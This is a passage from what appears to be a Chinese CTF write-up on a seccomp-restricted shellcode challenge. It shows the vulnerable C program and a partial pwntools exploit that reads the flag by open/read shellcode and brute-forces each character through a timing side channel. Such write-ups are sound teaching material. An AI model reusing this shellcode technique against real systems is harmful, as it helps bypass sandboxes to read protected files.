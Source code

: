 ```c

int main() {
	init();
	puts("OR ShellCode?");
	int size = getpagesize();
	void *ptr = mmap((void *)0x1000, size, 7, 34, 0, 0);
	read(0, ptr, 0x100);
	prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
	scmp_filter_ctx ctx;
	ctx = seccomp_init(SCMP_ACT_KILL);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_load(ctx);
	((void(*)(void))ptr)();
	return 0;
}
// gcc or_shellcode.c -o or_shellcode -lseccomp
```

用seccomp-tools来查看规则

![image-20220327160933927](自救指南.assets/image-20220327160933927.png)

这里只有open和read是ALLOW的, 那么orw肯定就会时效, 然后直接套用模板来看一下

#### Exploit

```python
from pwn import*
import time
context(os='linux', arch='amd64')

def attack(o, i, ch):
	shellc = shellcraft.open("flag")
	shellc += shellcraft.read("rax", "rsp", 0x50)
	shellc += "loop:\n"
	shellc += "cmp byte ptr[rsi+{0}], {1}\n".format(i, ord(ch))
	shellc += "jz loop"
	o.recv()
	o.sendline(asm(shellc))

if __name__ == "__main__":
	li = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}1234567890_-"
	i = 0
	flag = []
	while(10-i):
		for ch in li:
			o = process('./or_shellcode')
			start_time = time.time()
```